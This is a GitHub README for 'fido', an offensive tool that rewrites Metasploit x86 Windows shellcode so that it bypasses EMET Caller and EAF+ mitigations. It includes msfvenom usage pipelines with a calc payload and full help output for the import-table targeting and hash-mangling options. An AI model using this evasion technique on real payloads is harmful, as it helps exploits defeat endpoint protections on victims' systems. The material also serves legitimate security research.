 # fido
Teaching an old shellcode new tricks

Give fido.py a x86 (32 bit) windows shellcode and it will strip off Stephen Fewer's hash API stub and replace it 
with something that bypasses EMET Caller and EAF+ checks but keeps the actual API calls in use.

# WARNING: If the 2nd stage payload uses the hash api from metasploit that loads Win APIs from the Export Address Table and jmp's into them, EMET will catch it.

If the warning didn't make sense, you might want to walk away or read up: 

* REcon BR Slides: https://github.com/secretsquirrel/fido/blob/master/REconBR_2017.pdf
* Demo1 (Hash Mangling POC): https://youtu.be/p3vFRx5dur0
* Demo2 (Tor Exploit POC): https://youtu.be/oqHT6Ienudg

## Usage

Can take input from stdout and output to stdout:
```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/testharness.py -m -b Tcpview.exe -p ExternGPA -t win10  > test.bin
```

Can take input from cmdline (via -s).

Want win7-win10 compatibility?  Use the following command:

```
msfvenom -p windows/exec CMD=calc EXITFUNC=thread | ~/github/fido/fido.py -p ExternGPA -l api-ms-win-core-libraryloader-l1-1-0.dll -d kernel32.dll > test.bin
```

This will use GetProcAddress in api-ms-win-core-libraryloader-l1-1-0.dll import from the kernel32.dll loaded module. 


Help output:

```
[!] -s is required either from cmd line flag or stdin <cat code.bin> | ./fido.py
usage: use "fido.py --help" for more information

This code imports metasploit sourced x86 windows shellcode that employs
Stephen Fewers Hash API stub and replaces it to bypass EMET Caller/EAF checks
and other bolt on mitigations. Accepts msfvenom output from stdin or from disk.
Doesn't do logic checks on provided payload to ensure it is x86 (32bit) or for windows
OS (up to you to be correct)

positional arguments:
  infile
  outfile

optional arguments:
  -h, --help            show this help message and exit
  -b TARGETBINARY, --targetbinary TARGETBINARY
                        Binary that shellcode will be customized to (Optional)
  -t OS, --OSTarget OS  OS target for looking for target DLL Import Tables: winXP, win7, win8, winVista, win10
  -s CODE, --shellcode CODE
                        x86 Win Shellcode with Stephen Fewers Hash API prepended (from msfvenom) can be from stdin
  -d DLL, --DLLName DLL
                        If you know the DLL in the IAT you are targeting enter this, no need for OS flag.
  -l IMPORTNAME, --Import IMPORTNAME
                        For use with -d and ExternGPA (-p), specify either 'kernel32.dll' or
                        'api-ms-win-core-libraryloader' -- you need to know with import you are targeting.
                        To know, run without -d for a list of candidates. Default is kernel32.dll but not always right!

  -m, --mangle          Mangle metasploit hash apis from their original values (you want to do this)
  -o OUTPUT, --output OUTPUT
                        How you would like your output: [c], [p]ython, c[s]harp Default: stdout.
  -p PARSER_STUB, --parser_stub PARSER_STUB
                        By default this assumes that GetProcAddress (GPA) is in the targetbinary's
                        Import Address Table (IAT) if no targetbinary or DLL name is provided.
                        Four options:
                            GPA  - GPA is in targetbinary IAT (default)
                            LLAGPA - LoadlibraryA(LLA)/GPA is in the targetbinary IAT (smallest shellcode option)
                            ExternGPA -- need DLLName or targetbinary to use
                            ExternLLAGPA -- need DLLName or targetbinary to use

  -n, --donotfail       Default: Fail if Stephen Fewers Hash API stub is not there, use -n to bypass
```






